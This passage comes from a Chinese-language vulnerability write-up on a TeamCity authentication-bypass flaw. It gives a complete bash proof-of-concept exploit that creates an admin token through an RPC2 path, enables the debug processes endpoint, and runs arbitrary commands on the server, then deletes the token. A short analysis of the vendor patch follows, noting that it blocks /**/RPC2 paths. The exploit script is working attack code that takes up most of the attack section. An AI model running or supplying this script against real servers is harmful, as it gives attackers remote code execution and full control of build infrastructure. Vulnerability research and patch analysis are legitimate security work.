所以 poc 如下：

可以通过/app/rest/users/端点创建管理员权限 token，/app/rest/debug/processes?exePath=可以执行任意命令。

```shell
#!/bin/bash

if [ "$#" -ne 3 ]; then
    echo "Usage: $0 <base_url> <port> <command>"
    exit 1
fi

BASE_URL="$1"
PORT="$2"
COMMAND="$3"

TOKEN_ENDPOINT="${BASE_URL}:${PORT}/app/rest/users/id:1/tokens/RPC2"
EDIT_FILE_ENDPOINT="${BASE_URL}:${PORT}/admin/dataDir.html?action=edit&fileName=config/internal.properties&content=rest.debug.processes.enable=true"
RCE_ENDPOINT="${BASE_URL}:${PORT}/app/rest/debug/processes?exePath=${COMMAND}"

TOKEN_RESPONSE=$(curl -X POST "$TOKEN_ENDPOINT")
BEARER_TOKEN=$(echo "$TOKEN_RESPONSE" | grep -oP 'value="\K[^"]+')

curl -s -X POST "$EDIT_FILE_ENDPOINT" -H "Authorization: Bearer ${BEARER_TOKEN}"

RESPONSE=$(curl -s -X POST "$RCE_ENDPOINT" -H "Authorization: Bearer ${BEARER_TOKEN}" | awk -F 'StdOut:|StdErr:' '{print $2}' )

curl -s -X DELETE "$TOKEN_ENDPOINT" -H "Authorization: Bearer ${BEARER_TOKEN}"

echo $RESPONSE
```

## 五、漏洞修复：

顺便分析一下漏洞补丁：[https://blog.jetbrains.com/zh-hans/teamcity/2023/09/critical-security-issue-affecting-teamcity-on-premises-update-to-2023-05-4-now/](https://blog.jetbrains.com/zh-hans/teamcity/2023/09/critical-security-issue-affecting-teamcity-on-premises-update-to-2023-05-4-now/)

还是一样通过工具反编译补丁包，这段代码在

myPreHandlingDisabled 对象中添加了路径 "/RPC2" 并删除了所有匹配 "/\*\*/RPC2" 的路径。这意味着它禁止访问所有类似 "/example/RPC2"、"/test/RPC2" 这样的路径。
